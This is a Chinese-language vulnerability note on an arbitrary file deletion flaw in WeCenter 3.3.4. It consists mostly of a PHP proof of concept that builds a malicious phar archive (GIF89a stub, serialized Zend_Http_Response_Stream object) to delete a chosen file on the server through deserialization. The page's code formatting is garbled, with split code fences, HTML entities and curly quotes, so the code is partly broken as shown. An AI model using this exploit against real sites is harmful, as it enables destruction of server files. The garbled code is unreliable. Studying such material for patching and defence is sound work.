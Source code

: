 ```yaml
---
title: "WeCenter 3.3.4 任意文件删除"
id: zhfly3236
---
```


# WeCenter 3.3.4 任意文件删除

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 任意文件删除

**system/Zend/Http/Response/Stream.php:__destruct()** 方法中存在任意文件删除。

![image](../img/9d05f8bed0e623be7b6ef22af5b64dc3.png)

### poc

```
<?php
class Zend_Http_Response_Stream
{
    protected $_cleanup;
    protected $stream_name;

```
public function __construct($stream_name)
{
    $this-&gt;_cleanup = true;
    $this-&gt;stream_name = $stream_name;
} 
```

}

$stream_name = ‘/var/www/html/wecenter334/shell.php’;

$evilobj = new Zend_Http_Response_Stream($stream_name);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering(); `?>` 
```